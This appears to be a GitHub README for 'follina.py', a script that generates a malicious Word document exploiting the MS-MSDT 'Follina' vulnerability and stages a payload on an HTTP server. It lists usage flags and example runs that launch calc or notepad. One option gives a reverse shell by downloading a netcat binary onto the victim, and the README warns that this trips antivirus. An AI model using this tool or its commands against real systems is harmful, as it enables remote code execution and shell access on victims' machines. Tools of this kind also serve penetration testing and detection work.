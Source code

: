 # MS-MSDT "Follina" Attack Vector


--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
